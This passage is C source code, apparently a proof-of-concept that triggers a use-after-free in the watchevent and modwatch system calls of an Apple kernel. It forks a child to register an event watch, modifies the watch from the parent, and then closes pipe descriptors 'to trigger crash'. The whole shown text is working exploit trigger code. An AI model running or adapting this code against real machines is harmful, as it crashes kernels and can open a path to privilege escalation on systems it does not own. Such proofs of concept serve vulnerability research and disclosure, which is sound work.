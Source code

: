 ```
    
    req.er_type = EV_FD;
    req.er_handle = fd;
    
    return syscall(SYS_watchevent, &req, eventmask);
}

int modwatch(int fd)
{
    struct eventreq64 req;
    int eventmask = EV_RM;
    
    req.er_type = EV_FD;
    req.er_handle = fd;
    
    return syscall(SYS_modwatch, &req, eventmask);
}


void try_uaf() {
    
    int fd[2] = {0};
    
    int ret = pipe(fd);
    if (ret == -1) {
        printf("pipe error.\n");
        return ;
    }
    
    printf("step 1: Process A(0x%x) create fd1: %d and fd2: %d\n", getpid(), fd[0], fd[1]);
    
    int pid = fork();
    if (pid < 0)
        return ;
    else if (pid == 0)
    {
        printf("step 2: Process B is forked, pid:0x%x\n", getpid());
        
        int iret = watchevent(kInFd);
        
        printf("step 3: Process B watchevent on fd 3: 0x%x\n", iret);
        
    
        sleep(10);
        
        printf("step 5: Process B exits.\n");
        exit(0);
    }
    
    //wait child process setting watchevent
    sleep(2);
    
    modwatch(fd[0]);
    printf("step 4: Process A modwatch on fd 0\n");
    
    //wait child process B exits.
    sleep(15);
    
    printf("step 6: close fd1 and fd2 to trigger crash...\n");
    printf("press any key to trigger...\n");
    getchar();
    
    close(fd[0]);
```